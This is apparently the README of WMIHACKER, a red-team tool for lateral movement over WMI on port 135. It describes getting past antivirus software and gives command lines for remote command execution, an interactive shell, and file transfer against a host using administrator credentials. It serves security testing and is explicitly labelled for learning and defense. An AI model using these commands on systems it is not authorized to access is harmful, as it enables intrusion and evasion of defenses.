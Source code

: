 # WMIHACKER（No need 445 Port）
[中文版(Chinese version)](README_zh.md)

> Contact: _xiangshan(Wechat)

> Disclaimer: The technology involved in this project is only for security learning and  defense purposes, illegal use is prohibited!


Bypass anti-virus software lateral movement command execution test tool（No need 445 Port）

Introduction: The common WMIEXEC, PSEXEC tool execution command is to create a service or call Win32_Process.create, these methods have been intercepted by Anti-virus software 100%, so we created WMIHACKER (Bypass anti-virus software lateral movement command execution test tool（No need 445 Port）).

Main functions: 1. Command execution; 2. File upload; 3. File download

## How to use
```
C:\Users\administrator\Desktop>cscript //nologo WMIHACKER_0.6.vbs

__          ____  __ _____   _    _          _____ _  ________ _____
\ \        / /  \/  |_   _| | |  | |   /\   / ____| |/ /  ____|  __ \
 \ \  /\  / /| \  / | | |   | |__| |  /  \ | |    | ' /| |__  | |__) |
  \ \/  \/ / | |\/| | | |   |  __  | / /\ \| |    |  < |  __| |  _  /
   \  /\  /  | |  | |_| |_  | |  | |/ ____ \ |____| . \| |____| | \ \
    \/  \/   |_|  |_|_____| |_|  |_/_/    \_\_____|_|\_\______|_|  \_\
                              v0.6beta       By. Xiangshan@360RedTeam
Usage:
        WMIHACKER.vbs  /cmd  host  user  pass  command GETRES?

        WMIHACKER.vbs  /shell  host  user  pass

        WMIHACKER.vbs  /upload  host  user  pass  localpath remotepath

        WMIHACKER.vbs  /download  host  user  pass  localpath remotepath

          /cmd          single command mode
          host          hostname or IP address
          GETRES?       Res Need Or Not, Use 1 Or 0
          command       the command to run on remote host
```

The result is displayed after the command is executed

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo" 1`

No results are displayed after the command is executed

`> cscript WMIHACKER_0.6.vbs /cmd 172.16.94.187 administrator "Password!" "systeminfo > c:\1.txt" 0`

shell mode

`> cscript WMIHACKER_0.6.vbs /shell 172.16.94.187 administrator "Password!" `

File upload: copy the local calc.exe to the remote host c:\calc.exe

`> cscript wmihacker_0.4.vbe /upload 172.16.94.187 administrator "Password!" "c:\windows\system32\calc.exe" "c:\calc"`

File download: Download the remote host calc.exe to the local c:\calc.exe

`> cscript wmihacker_0.4.vbe /download 172.16.94.187 administrator "Password!" "c:\calc" "c:\windows\system32\calc.exe" `


## 404Starlink
<img src="https://github.com/knownsec/404StarLink-Project/raw/master/logo.png" width="30%">

WMIHACKER has joined [404Starlink](https://github.com/knownsec/404StarLink)

## BlackHat Asia 2020 Arsenal

[https://www.blackhat.com/asia-20/arsenal/schedule/#wmihacker-a-new-way-to-use-135-port-lateral-movement-bypass-av-and-transfer-file-18995](https://www.blackhat.com/asia-20/arsenal/schedule/#wmihacker-a-new-way-to-use-135-port-lateral-movement-bypass-av-and-transfer-file-18995)

## Star History

[![Star History Chart](https://api.star-history.com/svg?repos=rootclay/WMIHACKER&type=Date)](https://star-history.com/#rootclay/WMIHACKER&Date)
